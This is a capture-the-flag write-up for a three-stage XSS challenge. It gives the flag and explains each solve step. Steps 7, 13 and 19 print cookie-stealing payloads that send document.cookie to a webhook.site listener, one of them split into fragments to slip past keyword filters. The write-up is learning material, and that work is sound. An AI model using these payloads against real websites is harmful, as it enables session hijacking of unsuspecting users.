





# WEB EXP
# NOTCSS
## CHALLENGE
we are given a website with a input field and an xss bot with certain input restrictions
## FLAG
`nite{b3c4u53_c45c4d1n6_57yl3_5h3375_4lr34dy_3x1575}`
## MY SOLVE
1. initially we are given a site which looks like this

2. there is no input filtering and when we run stuff, it shows that page has been loaded
3. since we are not able to see the page ourselves, we need a listener to like view the html info about the page the bot has visited. so i use `webhook.com`
4. so i first input ``
5. the bot loads the page and executes that javascript
6. `document.cookie` returns the bot’s cookies
7. `new Image().src = "webhook.site/...";` sends a request and this works in our favour cos browsers automatically load images when img.src is there. eventhough there is no image, the request goes out and webhook.site shows all the requests it get which includes the cookie value
8. 
9. we can see the cookie valye here. using this i proceed to xss2 by accessing the site `http://whyisitnotcalledcss.nitephase.live:56743/COOKIEVALUEOFXSS1`
10. now there are certain restrictions 
11. 
12. so this time script is blocked also everything turns to lowecase so we have to modify our prev input
13. `<iframe onload="fetch('https://webhook.site/667a74b5-11ef-4d1e-92c0-bd24e0262f12?c='+document.cookie)"></iframe>` so i use this which has fetch and iframe which passess the restrictions without any trouble
14. iframe is an html element which loads a page inside another page. onload so that it runs automatically and fetch to get the values to our listener site
15. this yields the value for out next website
16. 
17. the next site has even stringent input parsing
18. 
19. so i pass this as input `<iframe onload="d=window['doc'+'ument'];c=d['coo'+'kie'];fetch('//webhook.site/667a74b5-11ef-4d1e-92c0-bd24e0262f12?c='+c)"></iframe>`
20. this passess all criterion as document and cookie are loaded when passesing. relative url is used so that https:// never occurs. using this we get the final flag .
21. 
## LEARNING
1. windows.docu+ment is used because document is just a property of the global object, which in browsers is window.
2. use of iframe and onload
3. learnt how to use a listener website to retrieve details